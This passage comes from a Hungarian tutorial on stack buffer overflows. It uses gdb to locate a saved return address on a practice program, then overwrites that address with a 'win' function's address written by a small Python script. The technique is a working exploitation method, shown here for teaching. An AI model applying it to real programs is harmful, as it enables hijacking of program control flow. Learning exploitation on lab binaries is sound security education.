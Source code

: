 ```
r < bemenet
```

Stack frame vizsgálata:

```
info frame
```

A számunkra fontos adatok a következők:

```
saved rip = 0x7ffff7e0224a
```
Vagyis a mentett visszatérési cím `0x7ffff7e0224a`. Ezt kell keresnünk a stack-en.

```
rip at 0x7fffffffe388
```
Ami a mentés helye (a stack-en).

Most vizsgáljuk meg magát a stack-et is. Mivel a program végén vagyunk, a stack pointert valamennyivel (mondjuk
40 byte-tal) vissza kell állítani.

```
x/40x $sp-40
```

Most láthatjuk, hogy hol van tárolva a visszatérési cím és hogy hány byte beírása szükséges még addig. Egészítsük
ki a helykitöltő adatsorunkat pontosan ennyivel, majd adjuk hozzá a `win` függvény címét is. Ügyeljünk arra,
hogy ez egy 64 bites adat, illetve bevitelkor fordított bájtsorrend szükséges.

A `win` függvény címe:

```
0x401146
```

64 bitre kiegészítve:
```
0x0000000000401146
```

A szükséges Python kód a `geninput.py`-ban:
```python
sys.stdout.buffer.write(bytes.fromhex('46114000'))
sys.stdout.buffer.write(bytes.fromhex('00000000'))
```

Ha mindent jól csináltunk, a `win` függvény lefut (majd a program szegmentálási hibával leáll, mivel összezagyváltuk
a stack-et).

Az igazi teszt természetesen az, ha a programot a debuggeren kívül futtatjuk:

```bash
./teszt < bemenet
```
